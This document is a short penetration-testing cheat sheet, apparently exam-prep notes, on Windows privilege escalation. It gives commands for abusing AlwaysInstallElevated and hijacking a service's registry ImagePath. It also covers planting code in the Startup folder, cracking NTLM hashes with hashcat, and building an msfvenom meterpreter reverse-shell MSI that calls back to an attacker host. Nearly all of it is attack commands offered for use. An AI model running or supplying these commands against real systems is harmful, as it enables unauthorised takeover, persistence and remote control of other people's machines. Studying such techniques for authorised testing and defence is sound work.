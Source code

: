 

-gobuster dir -u http://<ip>:80 -w <wordlist>  
 
-accesschk64.exe -wvu "<file location>"  
Registry PrivEsc-AlwaysInstallElevated  
reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
msiexec /quiet /qn /i <msi location>
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <malicious_filename> /f
sc start regsvc
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

-hashcat -m 1000 <hash> <wordlist>

msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f msi -o <filename>.msi
 
x86_64-w64-mingw32-gcc <filename>.c -o <filename>.exe
 
 #### Service Escalation through the registry
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)  
Download useradd.c to kali then compile - [https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c](https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c)  
x86_64-w64-mingw32-gcc useradd.c -o mycode.exe  
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\mycode.exe /f  
sc start regsvc

#### Startup Applications
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" ~ (BUILTIN\Users '(F)' means user has full access)
Place shell or code in this folder, when user logs in, code execution
